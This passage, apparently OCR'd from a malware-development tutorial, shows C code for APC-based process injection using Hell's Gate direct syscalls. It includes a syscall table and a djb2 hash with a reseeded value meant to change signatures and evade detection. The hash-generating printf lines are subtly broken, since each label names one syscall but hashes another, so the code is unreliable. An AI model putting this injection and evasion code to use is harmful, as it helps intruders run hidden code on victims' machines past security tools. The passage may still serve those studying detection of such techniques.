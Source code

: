 ```
		printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");

	return TRUE;
}

```
### **Implementation Using Hell's Gate**

The last implementation for this module is using Hell's Gate. First, ensure that the same steps done to set up the Visual Studio project with SysWhispers3 are done here too. Specifically, enabling MASM and modifying the properties to set the ASM file to be compiled using the Microsoft Macro Assembler.

### **Updating The VX\_TABLE Structure**


```
typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtWriteVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtQueueApcThread;
} VX_TABLE, * PVX_TABLE;

```
### **Updating Seed Value**

A new seed value will be used to replace the [old one](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L93) to change the hash values of the syscalls. The djb2 hashing function is updated with the new seed value below.


```
DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}

```
The following `printf` statements should be added to a new project to generate the djb2 hash values.


```
printf("#define %s%s 0x%p \n", "NtAllocateVirtualMemory", "_djb2", (DWORD64)djb2("NtCreateSection"));
printf("#define %s%s 0x%p \n", "NtWriteVirtualMemory", "_djb2", djb2("NtMapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtProtectVirtualMemory", "_djb2", djb2("NtUnmapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtQueueApcThread", "_djb2", djb2("NtClose"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));

```
Once the values are generated, add them to the start of the Hell's Gate project.
